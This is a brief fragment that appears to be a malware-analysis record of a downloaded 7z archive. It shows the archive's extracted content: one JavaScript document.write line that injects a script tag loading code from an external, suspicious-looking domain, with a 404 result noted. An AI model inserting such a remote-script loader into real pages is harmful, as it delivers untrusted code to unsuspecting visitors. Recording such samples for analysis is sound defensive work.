 ## Downloaded File  
+-1453687_pkg_opener.7z
  
## Extracted  
document.write('<script src=https://5f1cba96.whim-proof.beauty/2tehnmobo8qmv></script>t')  
(404 Not Found)
